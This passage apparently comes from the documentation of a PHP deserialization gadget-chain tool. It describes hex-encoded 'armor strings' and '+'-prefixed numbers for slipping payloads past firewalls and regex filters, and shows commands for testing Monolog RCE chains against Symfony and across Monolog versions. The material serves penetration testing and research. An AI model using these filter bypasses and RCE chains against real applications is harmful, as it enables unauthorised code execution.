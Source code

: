 ### Armor Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every char to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"\41\00\42\09\0D";`
This comes handy when a firewall or PHP code blocks strings.
*Note: this is experimental and it might not work in some cases.*
*Note: this makes each string in the payload grow by a factor of 3.*

### Plus Numbers

Sometimes, PHP scripts verify that the given serialized payload does not contain objects by using a regex such as `/O:[0-9]+:`. This is easily bypassed using `O:+123:...` instead of `O:123:`. One can use `--plus-numbers <types>`, or `-n <types>`, to automatically add these `+` signs in front of symbols.
For instance, to obfuscate objects and strings, one can use: `--n Os`. Please note that since PHP 7.2, only `i` and `d` (float) types can have a `+`.

### Testing your chain

To test if the gadget chain you want to use works in the targeted environment, jump to your environment's folder and run the chain argument-free, with the `--test-payload` option.

For instance, to test if `Monolog/RCE2` works on Symfony `4.x`:

```
$ composer create-project symfony/website-skeleton=4.x some_symfony
$ cd some_symfony
$ phpggc monolog/rce2 --test-payload
Trying to deserialize payload...
SUCCESS: Payload triggered !
```

The exit code will be `0` if the payload triggered, `1` otherwise.

### Testing your chain against every version of a package

If you wish to know which versions of a package a gadget chain works against, you can use `test-gc-compatibility.py`.

```
$ ./test-gc-compatibility.py monolog/monolog monolog/rce1 monolog/rce3
Testing 59 versions for monolog/monolog against 2 gadget chains.

┏━━━━━━━━━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━┓
┃ monolog/monolog ┃ Package ┃ monolog/rce1 ┃ monolog/rce3 ┃
┡━━━━━━━━━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━┩
│ 2.x-dev         │   OK    │      OK      │      KO      │
│ 2.3.0           │   OK    │      OK      │      KO      │
│ 2.2.0           │   OK    │      OK      │      KO      │
│ 2.1.1           │   OK    │      OK      │      KO      │
│ 2.1.0           │   OK    │      OK      │      KO      │
│ 2.0.2           │   OK    │      OK      │      KO      │
│ 2.0.1           │   OK    │      OK      │      KO      │
│ 2.0.0           │   OK    │      OK      │      KO      │
│ 2.0.0-beta2     │   OK    │      OK      │      KO      │
│ 2.0.0-beta1     │   OK    │      OK      │      KO      │
│ 1.x-dev         │   OK    │      OK      │      KO      │
│ 1.26.1          │   OK    │      OK      │      KO      │
│ 1.26.0          │   OK    │      OK      │      KO      │
│ 1.25.5          │   OK    │      OK      │      KO      │
│ 1.25.4          │   OK    │      OK      │      KO      │
                        ...
│ 1.0.1           │   OK    │      KO      │      KO      │
│ 1.0.0           │   OK    │      KO      │      KO      │
│ 1.0.0-RC1       │   OK    │      KO      │      KO      │
```